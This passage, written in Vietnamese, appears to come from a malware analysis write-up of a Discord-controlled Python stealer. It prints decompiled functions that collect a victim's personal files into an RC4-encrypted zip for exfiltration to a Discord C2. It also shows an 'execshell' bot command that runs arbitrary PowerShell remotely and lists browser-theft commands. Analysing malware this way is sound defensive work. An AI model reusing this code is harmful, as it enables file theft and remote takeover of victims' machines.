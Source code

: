 ```
     os.path.join(user_profile_path, "Documents"),
     os.path.join(user_profile_path, "Pictures"),
     os.path.join(user_profile_path, "Downloads"),
     os.path.join(user_profile_path, "Music"),
     os.path.join(user_profile_path, "Videos")]
    found_files = []
    for directory in target_directories:
        for root, _, files in os.walk(directory):
            for file_name in files:
                if any((file_name.endswith(ext) for ext in target_extensions)):
                    found_files.append(os.path.join(root, file_name))

    zip_path = os.path.join(target_directories, "Upload.zip")
    try:
        with zipfile.ZipFile(zip_path, "w") as zipf:
            for file_to_zip in found_files:
                zipf.write(file_to_zip, os.path.relpath(file_to_zip, user_profile_path))

        encrypt_file_with_rc4((f"{zip_path}"), (f"{zip_path}"), (f"{get_public_ip()}"))
    except Exception as e:
        try:
            return 0
        finally:
            e = None
            del e

    return zip_path
```
> Nó sẽ đánh cấp dữ liệu với các file có extension như **'.png', '.pdf', '.jpg', '.docx', . . .** ở trong các thư mục **Desktop, Documents, Downloads, . . .** của nạn nhân, đồng thời sẽ nén lại trong một file zip và sử dụng **mã hóa RC4** với key là **ip public** của máy nạn nhân, sau đó gửi đến **C2 server** của hacker, ở trường hợp này sẽ là **discord Guild**

* cmd_execute_shell():
```
@bot.command(name="execshell")
@commands.is_owner()
async def cmd_execute_shell(ctx, *args):
    try:
        command_string = " ".join(args)
        full_command = f"powershell -Command {command_string}"
        process_result = subprocess.run(full_command, shell=True, capture_output=True, text=True)
        output = process_result.stdout + process_result.stderr
        if len(output) < 1990:
            await ctx.send(f"```\n{output}\n```")
        else:
            for i in range(0, len(output), 1990):
                await ctx.send(f"```\n{output[i:i + 1990]}\n```")

    except Exception as e:
        try:
            return 0
        finally:
            e = None
            del e

```
dùng để nhận lệnh từ C2 server và thực thi shell trên máy nạn nhân và gửi kết quả cho hacker.
Tương tự như vậy:
* globalinfo: lấy thông tin của máy
* quit: ngắt kết nối
* steal: lấy hết thông tin trong browser của nạn nhân
* showHis: lấy thông tin lịch sử truy cập của nạn nhân
* showDown: xem lịch sử download của nạn nhân
